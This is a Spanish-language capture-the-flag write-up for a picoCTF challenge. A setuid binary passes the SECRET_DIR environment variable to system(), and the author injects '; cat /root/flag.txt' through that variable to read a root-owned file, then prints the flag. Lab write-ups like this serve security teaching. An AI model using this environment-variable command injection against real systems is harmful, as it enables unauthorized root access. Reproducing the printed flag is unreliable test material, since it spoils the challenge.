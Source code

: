 # VNE

Este ejercicio nos da las credenciales para acceder por SSH como un usuario en una máquina.

En el directorio inicial encontramos un binario llamado `bin`:

```bash
file bin  
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripped
```

Si intentamos ejecutarlo, obtenemos un mensaje de error:

```bash
./bin
Error: SECRET_DIR environment variable is not set
```

Si asignamos la variable `SECRET_DIR` al directorio `/root`, por ejemplo, al ejecutar el binario veremos un `ls` del contenido de `/root`:

```bash
export SECRET_DIR="/root"
./bin
Listing the content of /root as root:
flag.txt
```

Podemos ver el archivo `flag.txt`, pero no su contenido.

Podemos usar `strings` sobre el binario para obtener más información. Al hacerlo, observamos la siguiente línea:

```bash
__stack_chk_fail
__cxa_atexit
getenv
system // Ruta relativa
__cxa_finalize
setgid
__libc_start_main
```

El binario parece usar `system` con una ruta relativa. Viendo su comportamiento, podemos suponer que está ejecutando algo como `system('ls SECRET_DIR')`.

Podemos intentar inyectar un segundo comando usando `;` de la siguiente forma:

```bash
export SECRET_DIR='/root; cat /root/flag.txt'
```

Probamos a ejecutar el binario:

```bash
./bin
Listing the content of /root; cat /root/flag.txt as root:
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_cdeb2a4d}
```

¡Lo tenemos!

